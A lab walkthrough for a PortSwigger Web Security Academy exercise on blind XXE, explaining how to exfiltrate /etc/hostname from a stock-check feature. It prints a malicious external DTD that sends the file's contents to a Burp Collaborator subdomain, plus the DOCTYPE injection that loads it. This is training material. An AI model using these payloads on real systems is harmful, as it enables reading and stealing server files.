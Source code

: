 # Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration) has a "Check stock" feature that parses XML input but does not display the result.

## Reproduction and proof of concept

1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Place the Burp Collaborator payload into a malicious DTD file:

```text
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

4. Click "Go to exploit server" and save the malicious DTD file on your server. Click **View exploit** and take a note of the URL.

![XXE](/_static/images/xxe10.png)

5. Exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click **Check stock**, and intercept the resulting POST request in Burp Suite.
6. Send to Repeater and insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:

```text
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

![XXE](/_static/images/xxe11.png)

7. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the ``/etc/hostname`` file.

![XXE](/_static/images/xxe12.png)

If you don't see any interactions listed, wait a few seconds and try again.

## Exploitability

An attacker needs to exfiltrate the contents of the `/etc/hostname` file. A **malicious** DTD must be crafted and hosted on the exploit server and the **check stock** request must be tampered by adding a XML parameter entity. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server._
